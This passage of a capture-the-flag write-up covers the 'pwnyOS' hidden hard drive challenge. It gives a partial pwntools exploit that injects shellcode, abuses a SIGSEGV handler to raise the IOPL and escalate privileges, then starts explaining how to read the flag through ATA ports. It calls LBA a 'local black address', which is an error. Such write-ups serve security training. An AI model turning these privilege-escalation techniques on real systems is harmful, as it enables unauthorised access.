 ```python
from pwn import *
import time
e = ELF("./fs/fs/bin/hidden_hard_drive")
context.arch = "i386"
p = process("./start.sh",shell=True) if args.LOCAL else remote('hiddenhd-pwnyos.chal.uiuc.tf', 1337)
NUM_TO_RET = 0x48

# Run vulnerable binary
time.sleep(5)
p.sendline("hidden_hard_drive")
p.recvuntil("0x")
bufaddr = int(p.recvline(), 16)
log.info(f"Buffer address: {hex(bufaddr)}")
newshellcode = bufaddr + 0x50
sc = asm(f"mov eax, 4; xor ebx, ebx; mov ecx, {hex(newshellcode)}; mov edx, 0x100 ; int 0x80")
# Register the new shellcode as sigsegv handler
sc += asm(f"xor ebx, ebx ; mov ecx, {hex(newshellcode)} ; mov eax, 14 ; int 0x80")
# Trigger sigsegv
sc += asm(f"mov eax, 0xdeadbeef ; mov dword ptr [eax], 0")
payload = fit({0: sc, NUM_TO_RET: bufaddr})
pause()
p.sendline(payload)
time.sleep(2)
handler = asm("mov ebx, dword ptr [esp+44] ; or ebx, 0x3000 ; mov dword ptr [esp+44], ebx")
handler += asm(f"mov dword ptr [esp+36], {hex(newshellcode + 0x17)}; ret")
```
The first piece of shellcode simply reads new shellcode, registers the sigsegv handler, and triggers a sigsegv by trying to read 0xdeadbeef.

<img width="716" alt="Handler stack" src="https://user-images.githubusercontent.com/62653826/128645495-ab7064c7-dfe9-4bdc-aab3-0f1500cc36f7.png">


As shown in the above figure, eflags is at index 10 in the frame(will be 11 on the stack because the return address is also there, so esp + 4*11).  Meanwhile, eip is at index 8, and for the same reasons as previous, will be at esp + 4 * 9. As well as setting the IOPL to 0, it edits the eip to instead point to directly after the `ret` instruction - so the additional data in `handler` will be executed afterwards, when the IOPL is 3.

We have successfully elevated privileges.

### Getting the Flag

Now, we must interact with the ports to read the flag. ATA PIO ports have specific purposes and formats that we must utilise in order to read the flag - we cannot just start reading from a port and expect it to work.

<img width="953" alt="ATA Ports" src="https://user-images.githubusercontent.com/62653826/128645553-7dac4f6d-4510-4a47-81af-9e5e432ddac8.png">


Since the beginning of the hda is just the flag file, the address that we want to read from is just 0x0, which makes everything much easier. Otherwise we'd have to craft an LBA(local black address) that describes the specific sector we wish to read.
